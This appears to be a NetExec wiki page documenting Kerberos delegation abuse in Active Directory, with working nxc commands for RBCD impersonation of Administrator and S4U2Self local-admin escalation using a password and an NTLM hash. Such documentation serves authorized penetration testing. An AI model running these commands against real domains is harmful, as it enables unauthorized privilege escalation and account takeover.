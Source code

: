 ```yaml
---
description: Resource Based Constrained Delegation (RBCD) and
---
```


# 🆕 Delegation

## RBCD

If you have an object with the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute set to an account you control you can use the impersonate flag inside NetExec to automatically execute the Resource Based Constrained Delegation and impersonate any user:

{% code fullWidth="false" %}
```
nxc smb 192.168.56.11 -u jon.snow -p iknownothing --delegate Administrator
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption><p>RBCD with NetExec</p></figcaption></figure>

## S4U2Self

If you have a computer account you can (nearly) always get local administrator with the s4u2self extension:

```bash
nxc smb 192.168.56.10 -u 'KINGSLANDING$' -H 220fc1990391bdc183d1a68c389c0229 --delegate Administrator --self
```

<figure><img src="../../.gitbook/assets/self (2).png" alt=""><figcaption><p>S4U2Self abuse using NetExecs delegation feature</p></figcaption></figure>



## Resources:

{% embed url="https://www.thehacker.recipes/a-d/movement/kerberos/delegations/rbcd" %}

{% embed url="https://www.thehacker.recipes/a-d/movement/kerberos/delegations/s4u2self-abuse" %}

{% embed url="https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/resource-based-constrained-delegation" %}
